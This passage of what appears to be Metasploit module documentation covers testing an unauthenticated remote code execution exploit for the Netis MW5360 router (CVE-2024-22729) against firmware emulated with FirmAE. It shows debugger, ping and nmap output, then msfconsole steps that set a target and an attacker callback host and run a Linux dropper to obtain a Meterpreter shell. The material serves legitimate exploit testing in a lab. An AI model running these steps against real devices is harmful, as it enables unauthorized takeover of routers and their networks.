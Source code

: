 ```shell
/root/FirmAE/./debug.py:7: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib
[*] firmware - Netis_MW5360-1.0.1.3442
[*] IP - 192.168.1.1
[*] connecting to netcat (192.168.1.1:31337)
[+] netcat connected
------------------------------
|       FirmAE Debugger      |
------------------------------
1. connect to socat
2. connect to shell
3. tcpdump
4. run gdbserver
5. file transfer
6. exit
```
* check if you can `ping` the emulated router and run `nmap` to check the ports
```shell
 # ping 192.168.1.1
PING 192.168.8.1 (192.168.8.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=9.2 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=3.18 ms
^C
--- 192.168.1.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 2.384/5.650/8.916/3.266 ms
 # nmap 192.168.1.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-19 10:16 UTC
Nmap scan report for 192.168.1.1
Host is up (0.0026s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 00:E0:4C:81:96:C1 (Realtek Semiconductor)

Nmap done: 1 IP address (1 host up) scanned in 4.82 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.1.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/netis_unauth_rce_cve_2024_22729`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Linux Dropper>`
- [x] `exploit`

you should get a `Meterpreter` session.
